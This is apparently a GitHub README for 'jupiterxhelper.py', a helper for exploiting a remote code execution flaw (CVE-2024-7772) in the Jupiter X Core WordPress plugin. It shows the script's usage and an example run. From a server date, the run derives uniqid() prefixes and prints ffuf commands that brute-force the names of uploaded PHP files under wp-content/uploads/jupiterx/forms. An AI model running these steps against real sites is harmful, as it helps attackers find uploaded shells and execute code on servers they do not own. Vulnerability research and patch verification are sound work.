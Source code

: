 # Jupiter X RCE uniqid() Helper

See [Jupiter X Core Plugin <= 4.6.5 Remote Code Execution (CVE-2024-7772)](https://blog.lexfo.fr/jupiterx-rce-cve-2024-7772.html) for more information.

## Usage

```
usage: jupiterxhelper.py [-h] --server-date SERVER_DATE --wp-url WP_URL

Jupiter X RCE uniqid() Helper

optional arguments:
  -h, --help            show this help message and exit
  --server-date SERVER_DATE
                        The server date
  --wp-url WP_URL       The WordPress URL
```

## Example

```
$ ./jupiterxhelper.py --server-date "Sun, 04 Aug 2024 13:10:06 GMT" --wp-url "https://192.168.1.32/wordpress"
generating the file milliseconds.txt..
http response date is Sun, 04 Aug 2024 13:10:06 GMT
response date with delta=0 2024-08-04 13:10:06+00:00 [66af7dae]
response date with delta=-1 2024-08-04 13:10:05+00:00 [66af7dad]
response date with delta=1 2024-08-04 13:10:07+00:00 [66af7daf]

execute by priority:
URL=https://192.168.1.32/wordpress/wp-content/uploads/jupiterx/forms
ffuf -u $URL/66af7daeFUZZ.php -w milliseconds.txt -o result_66af7dae -ignore-body
ffuf -u $URL/66af7dadFUZZ.php -w milliseconds.txt -o result_66af7dad -ignore-body
ffuf -u $URL/66af7dafFUZZ.php -w milliseconds.txt -o result_66af7daf -ignore-body
```